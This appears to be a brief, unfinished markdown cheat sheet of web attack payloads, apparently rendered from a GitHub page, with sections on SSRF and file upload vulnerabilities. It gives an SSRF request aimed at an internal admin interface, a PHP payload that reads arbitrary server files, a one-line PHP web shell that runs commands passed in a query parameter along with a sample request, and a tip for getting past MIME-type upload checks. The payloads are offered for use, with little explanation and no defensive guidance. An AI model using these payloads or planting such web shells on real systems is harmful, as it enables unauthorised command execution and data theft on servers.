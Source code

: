 ```yaml
---

# Table of Contents

---
```

- [SSRF]()
- [File Upload]()
- []()
- []()
---
# Title
---

## SSRF

**SSRF - Server-Side Request Forgery is the attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application**

### Example
An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

---

## File Upload Vulnerability

**File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.**

### Payloads

Read arbitrary files from the server's filesystem:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
---
Easy oneliner web-shell:
```php
<?php echo system($_GET['command']); ?>
```
This allows you to pass an arbitrary system command via a query parameter as follows:
```
GET /example/exploit.php?command=id HTTP/1.1
```
---

### Security Bypass

1. **MIME Type**. Your browser could check you file type with Content-Type header with different [MIME](https://www.sitepoint.com/mime-types-complete-list/) type value, but if you change it, you also could bypass it

---







--- 
